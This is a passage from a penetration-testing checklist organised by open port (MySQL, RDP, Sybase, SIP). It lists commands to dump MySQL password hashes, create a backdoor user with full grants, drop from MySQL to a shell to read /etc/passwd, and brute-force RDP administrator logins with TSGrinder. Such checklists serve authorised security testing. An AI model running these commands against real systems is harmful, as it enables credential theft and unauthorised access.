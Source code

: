             ▪  To run many sql commands at once -- mysql -u username -p < manycommands.sql
             ▪  MySQL data directory (Location specified in my.cnf)
                 ▪  Parent dir = data directory
                 ▪  mysql
                 ▪  test
                 ▪  information_schema (Key information in MySQL)
                     ▪  Complete table list -- select table_schema,table_name from tables;
                     ▪  Exact privileges -- select grantee, table_schema, privilege_type FROM schema_privileges;
                     ▪  File privileges -- select user,file_priv from mysql.user where user='root';
                     ▪  Version -- select version();
                     ▪  Load a specific file -- SELECT LOAD_FILE('FILENAME');
             ▪  SSL Check
                 ▪  mysql> show variables like 'have_openssl';
                     ▪  If there's no rows returned at all it means the the distro itself doesn't support SSL connections and probably needs to be recompiled. If its disabled it means that the service just wasn't started with ssl and can be easily fixed.
         ▪  Privilege Escalation
             ▪  Current Level of access
                 ▪  mysql>select user();
                 ▪  mysql>select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='OUTPUT OF select user()';
             ▪  Access passwords
                 ▪  mysql> use mysql
                 ▪  mysql> select user,password from user;
             ▪  Create a new user and grant him privileges
                 ▪  mysql>create user test identified by 'test';
                 ▪  mysql> grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;
             ▪  Break into a shell
                 ▪  mysql> \! cat /etc/passwd
                 ▪  mysql> \! bash
     ◦  SQL injection
         ▪  mysql-miner.pl
             ▪  mysql-miner.pl http://target/ expected_string database
         ▪  http://www.imperva.com/resources/adc/sql_injection_signatures_evasion.html
         ▪  http://www.justinshattuck.com/2007/01/18/mysql-injection-cheat-sheet/
     ◦  References.
         ▪  Design Weaknesses
             ▪  MySQL running as root
             ▪  Exposed publicly on Internet
         ▪  http://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=mysql
         ▪  http://search.securityfocus.com/swsearch?sbm=%2F&metaname=alldoc&query=mysql&x=0&y=0
 •  RDesktop port 3389 open
     ◦  Rdesktop Enumeration
         ▪  Remote Desktop Connection
     ◦  Rdestop Bruteforce
         ▪  TSGrinder
             ▪  tsgrinder.exe -w dictionary_file -l leet -d workgroup -u administrator -b -n 2 IP_Address
         ▪  Tscrack
 •  Sybase Port 5000+ open
     ◦  Sybase Enumeration
         ▪  sybase-version ip_address from NGS
     ◦  Sybase Vulnerability Assessment
         ▪  Use DBVisualiser
             ▪  Sybase Security checksheet
                 ▪  Copy output into excel spreadsheet
                 ▪  Evaluate mis-configured parameters
             ▪  Manual sql input of previously reported vulnerabilties
                 ▪  Advanced SQL Injection in SQL Server
                 ▪  More Advanced SQL Injection
         ▪  NGS Squirrel for Sybase
 •  SIP Port 5060 open
     ◦  SIP Enumeration
         ▪  netcat